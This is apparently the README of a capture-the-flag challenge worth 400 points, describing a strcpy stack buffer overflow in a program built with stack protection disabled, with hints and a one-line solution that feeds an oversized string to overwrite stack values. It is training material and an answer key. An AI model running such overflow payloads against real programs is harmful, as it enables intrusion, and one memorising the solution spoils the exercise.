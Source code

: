 Challenge 3 - 400 Points
========================
Simple buffer overflow to overwite values on the stack.

Must compile with -fno-stack-protector

Hints
-----
1. Strcpy is involved. It's awful.

2. You're gonna need a bigger string.

Solution
--------
./chal3 $(python -c 'print "A"*512 + "\xad\xda\xad\xda\xdd\xee\xee\xdd"')

